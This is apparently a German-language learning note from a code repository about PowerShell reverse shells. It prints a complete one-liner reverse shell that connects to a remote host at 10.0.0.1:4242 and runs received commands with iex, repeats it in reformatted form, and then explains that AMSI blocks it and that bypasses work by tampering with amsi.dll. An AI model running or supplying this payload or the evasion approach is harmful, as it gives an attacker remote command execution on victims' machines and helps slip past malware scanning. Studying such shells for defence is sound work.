 # Learning zur Reverse Shell



One Liner Reverse Shell in einer Powershell
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Quelle: https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell

In Powershell umgeschrieben sieht der Code so aus:

```powershell
New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);
$stream = $client.GetStream()

[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2  = $sendback + "PS " + (pwd).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()}
    
$client.Close()
```

Führt man den Code in der Powershell aus. Kommt folgeden Fehlermeldung:

![image](https://github.com/user-attachments/assets/a9f07a42-b9cc-44c4-8627-e6568bd53662)

Die Fehlermeldung wird durch das Antimalware Scan Interface (kurz. AMSI) aufgerufen. AMSI analysiert den eingegeben Code auf Strukturen bekannter Schadsoftware. [Microsoft](https://learn.microsoft.com/de-de/windows/win32/amsi/antimalware-scan-interface-portal) nutzt AMSI für:
- Benutzerkontensteuerung bzw. UAC (Erhöhung von Rechten für EXE-, COM-, MSI- oder ActiveX-Installation)
- PowerShell (Skripts, interaktive Verwendung und dynamische Codeauswertung)
- Windows Script Host („wscript.exe“ und „cscript.exe“)
- JavaScript und VBScript
- VBA-Makros in Office

AMSI ist kein unbekanntes System, weshalb es einigen Anwendern gelungen einen Bypass zu erschaffen. Dazu wird die `amsi.dll` mit dem Ziel manipuliert, dass bosthafter Code als sauber zu indentifiziert wird.    
